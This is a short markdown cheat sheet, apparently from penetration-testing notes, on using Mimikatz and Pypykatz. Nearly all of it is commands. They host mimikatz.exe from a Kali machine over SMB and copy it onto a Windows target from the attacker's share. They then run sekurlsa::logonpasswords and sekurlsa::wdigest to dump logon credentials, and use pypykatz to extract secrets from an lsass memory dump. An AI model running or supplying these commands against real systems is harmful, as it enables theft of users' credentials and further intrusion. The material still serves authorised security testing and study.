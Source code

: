 # Mimikatz

## Mimikatz

Locate
```
$ locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

Host mimikatz
```
cd /usr/share/windows-resources/mimikatz/
impacket-smbserver share $(pwd) -smb2support
```


Copy to Target - x64
```
xcopy \\<Kali IP>\share\x64\mimikatz.exe C:\Temp\mimikatz\
```

Copy to Target - x86
```
xcopy \\<Kali IP>\share\Win32\mimikatz.exe C:\Temp\mimikatz\
```


All available creds
```
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::logonpasswords" exit
```

Only `wdigest`
```
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::wdigest" exit
```





## Pypykatz

Get secrets from memory dump
```
pypykatz lsa minidump --grep lsass.DMP
```